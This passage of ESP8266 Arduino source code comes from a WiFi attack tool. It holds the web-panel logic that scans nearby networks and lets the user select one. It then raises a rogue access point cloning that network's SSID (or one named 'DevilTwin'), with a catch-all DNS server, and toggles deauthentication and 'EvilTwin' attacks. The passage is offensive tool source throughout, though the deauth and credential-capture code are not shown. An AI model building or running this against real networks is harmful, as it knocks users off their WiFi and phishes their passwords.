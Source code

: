       dnsServer.stop();
      int n = WiFi.softAPdisconnect (true);
      Serial.println(String(n));
      WiFi.softAPConfig(IPAddress(192, 168, 4, 1) , IPAddress(192, 168, 4, 1) , IPAddress(255, 255, 255, 0));
      WiFi.softAP(_selectedNetwork.ssid.c_str());
      dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));

    } else if (webServer.arg("hotspot") == "stop") {
      hotspot_active = false;
      dnsServer.stop();
      int n = WiFi.softAPdisconnect (true);
      Serial.println(String(n));
      WiFi.softAPConfig(IPAddress(192, 168, 4, 1) , IPAddress(192, 168, 4, 1) , IPAddress(255, 255, 255, 0));
      WiFi.softAP("DevilTwin", "12345678");
      dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));
    }
    return;
  }

  for (int i = 0; i < 16; ++i) {
    if ( _networks[i].ssid == "") {
      break;
    }
    _html += "<tr><td>" + _networks[i].ssid + "</td><td>" + bytesToStr(_networks[i].bssid, 6) + "</td><td>" + String(_networks[i].ch) + "<td><form method='post' action='/?ap=" +  bytesToStr(_networks[i].bssid, 6) + "'>";

    if ( bytesToStr(_selectedNetwork.bssid, 6) == bytesToStr(_networks[i].bssid, 6)) {
      _html += "<button style='background-color: #90ee90;'>Selected</button></form></td></tr>";
    } else {
      _html += "<button>Select</button></form></td></tr>";
    }
  }

  if (deauthing_active) {
    _html.replace("{deauth_button}", "Stop deauthing");
    _html.replace("{deauth}", "stop");
  } else {
    _html.replace("{deauth_button}", "Start deauthing");
    _html.replace("{deauth}", "start");
  }

  if (hotspot_active) {
    _html.replace("{hotspot_button}", "Stop EvilTwin");
    _html.replace("{hotspot}", "stop");
  } else {
    _html.replace("{hotspot_button}", "Start EvilTwin");
    _html.replace("{hotspot}", "start");
  }


  if (_selectedNetwork.ssid == "") {
    _html.replace("{disabled}", " disabled");
  } else {
    _html.replace("{disabled}", "");
  }
